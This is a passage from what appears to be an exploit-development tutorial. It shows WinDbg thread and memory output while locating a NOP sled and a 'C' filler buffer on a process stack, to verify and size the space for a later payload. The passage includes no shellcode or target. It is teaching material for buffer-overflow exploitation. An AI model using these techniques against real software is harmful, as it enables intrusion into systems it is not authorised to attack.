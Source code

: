 ```bash
    ClientId:             00001d94 . 00001620
    RpcHandle:            00000000
    Tls Storage:          00523248
    PEB Address:          0035f000
    LastErrorValue:       0
    LastStatusValue:      c000000d
    Count Owned Locks:    0
    HardErrorMode:        0

```

Now that we get the Stack base and limit, we can search for our NOPs instruction followed by our C buffer in it.

Once located, calculate the size of our buffer.

```bash
0:009> s -b 007be000 007c0000 90 90 90 90 43 43 43 43 43 43
007bfc60  90 90 90 90 43 43 43 43-43 43 43 43 43 43 43 43  ....CCCCCCCCCCCC
```

Verify that our DWORDs buffer isn't truncated.

```bash
0:009> dd 007bfc60
007bfc60  90909090 43434343 43434343 43434343
007bfc70  43434343 43434343 43434343 43434343
007bfc80  43434343 43434343 43434343 43434343
007bfc90  43434343 43434343 43434343 43434343
007bfca0  43434343 43434343 43434343 43434343
007bfcb0  43434343 43434343 43434343 43434343
007bfcc0  43434343 43434343 43434343 43434343
007bfcd0  43434343 43434343 43434343 43434343

0:009> dd 007bfc64 L65
007bfc64  43434343 43434343 43434343 43434343
007bfc74  43434343 43434343 43434343 43434343
007bfc84  43434343 43434343 43434343 43434343
007bfc94  43434343 43434343 43434343 43434343
007bfca4  43434343 43434343 43434343 43434343
007bfcb4  43434343 43434343 43434343 43434343
007bfcc4  43434343 43434343 43434343 43434343
007bfcd4  43434343 43434343 43434343 43434343
007bfce4  43434343 43434343 43434343 43434343
007bfcf4  43434343 43434343 43434343 43434343
007bfd04  43434343 43434343 43434343 43434343
007bfd14  43434343 43434343 43434343 43434343
007bfd24  43434343 43434343 43434343 43434343
007bfd34  43434343 43434343 43434343 43434343
007bfd44  43434343 43434343 43434343 43434343
007bfd54  43434343 43434343 43434343 43434343
007bfd64  43434343 43434343 43434343 43434343
007bfd74  43434343 43434343 43434343 43434343
007bfd84  43434343 43434343 43434343 43434343
007bfd94  43434343 43434343 43434343 43434343
007bfda4  43434343 43434343 43434343 43434343
007bfdb4  43434343 43434343 43434343 43434343
007bfdc4  43434343 43434343 43434343 43434343
007bfdd4  43434343 43434343 43434343 43434343
007bfde4  43434343 43434343 43434343 43434343
007bfdf4  fffffffe
```
